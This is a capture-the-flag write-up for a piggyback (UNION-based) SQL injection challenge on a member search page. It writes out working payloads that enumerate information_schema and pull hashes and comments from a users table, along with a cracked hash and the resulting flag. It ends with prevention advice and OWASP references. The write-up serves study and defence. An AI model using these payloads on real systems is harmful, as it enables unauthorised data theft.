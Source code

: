 # PIGGYBACK SQL INJECTION 1

## Explanation

On the member search page, there is an input field.

- OR 1=1 allows us to get all users
  - There is a user which has info :
    - first_name : GetThe
    - last_name : Flag

We see that the user input is used in a **where** SQL statement.
This kind of statement allows for **UNION/piggyback** injections, which allow to retrieve other tables information

### 1. Getting DB information

if we leave the input empty and validate the form :
- Empty search : *You have an error in your SQL syntax; check the manual that corresponds to your **MySQL server** version for the right syntax to use ...*
  - => We know that the SQL engine is MySQL

Running the two following commands, we get all the usefull tables / columns available in the database
- 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
- 1 AND 1=2 UNION SELECT table_name, column_name, 1 FROM information_schema.columns

- SCHEMA: Member_Sql_Injection
- TABLE: users
- COLUMNS :
  - user_id
  - first_name
  - last_name
  - town
  - country
  - planet
  - countersign
  - Commentaire

### 2. Getting the flag


- 1 UNION SELECT countersign, first_name FROM Member_Sql_Injection.users
  - => We see here that the countersign column contains some hashes, but no flag.

- 1 UNION SELECT first_name, Commentaire FROM Member_Sql_Injection.users
  - => We see here that the Commentaire for user GetTheFlag is *“Decrypt this password -> then lower all the char. Sha256 on it and it's good !”*

- 1 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users
  - 5ff9d0165b4f92b14994e5c685cdce28 == FortyTwo
  - fortytwo SHA256  == 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Exploitation

**This vulnerability ranks number 1 in OWASP's top 10 Web Application Security Risk**

Different types of SQL injections allow the attacker to perform various things.
> - Data loss
> - Data corruption
> - Disclosure of information
> - Denial of access
> - Sometimes complete takeover of the system

## Prevention

> - Use an ORM
> - Escape characters (does not protect numeric fields)
> - Use Prepared statements => input won't be interpreted as SQL code anymore
> - Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

## Documentation

- [OWASP - TOP 10 - sql injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)
- [OWASP - sql injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [portswigger - UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
